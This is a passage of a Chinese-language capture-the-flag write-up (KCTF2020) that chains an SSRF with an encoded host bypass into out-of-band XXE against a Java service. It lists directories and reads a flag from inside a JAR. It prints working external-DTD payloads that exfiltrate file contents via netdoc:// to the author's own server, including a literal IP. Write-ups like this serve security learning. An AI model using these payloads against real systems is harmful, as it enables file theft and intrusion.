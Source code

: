 ![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic16.png)

而且没法查看目录，没办法找flag  
之后又用netdoc协议试试，可以列目录，最终使用以下payload：  

    =================================================================================
    <!-- g.dtd -->
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE creds [
    <!ENTITY % data3 SYSTEM "netdoc:///">
    <!ENTITY % sp SYSTEM "http://my_vps_ip:5000/d.dtd">
    %sp;
    %param3;
    %exfil;n
    ]>
    =================================================================================
    <!-- d.dtd -->
    <!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'netdoc://my_vps_ip:80/%data3;'>">
    =================================================================================

构造请求：  

    /getimage?url=http://127.0.0.1%253a8088%2523.pediy.com/loadConfig?url=http://my_vps_ip:5000/g.dtd

在burp中可以回显，已经可以列目录，读文件了：  

![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic17.png)
![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic18.png)

之后就是列目录，看文件。。。

最后在/home下有一些jar包：  

![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic19.png)  

用jar:file：读jar包，尝试了spring jar包常见的路径

最后找到flag.txt的路径是 `vip-demo-0.0.1-SNAPSHOT.jar`包下的 `/BOOT-INF/classes/flag.txt`，payload：  

    =================================================================================
    <!-- g.dtd -->
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE creds [
    <!ENTITY % data3 SYSTEM "jar:file:///home/vip-demo-0.0.1-SNAPSHOT.jar!/BOOT-INF/classes/flag.txt">
    <!ENTITY % sp SYSTEM "http://{my_vps_ip}:5000/d.dtd">
    %sp;
    %param3;
    %exfil;n
    ]>
    =================================================================================
    <!-- d.dtd -->
    <!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'netdoc://101.37.76.66:80/%data3;'>">
    =================================================================================
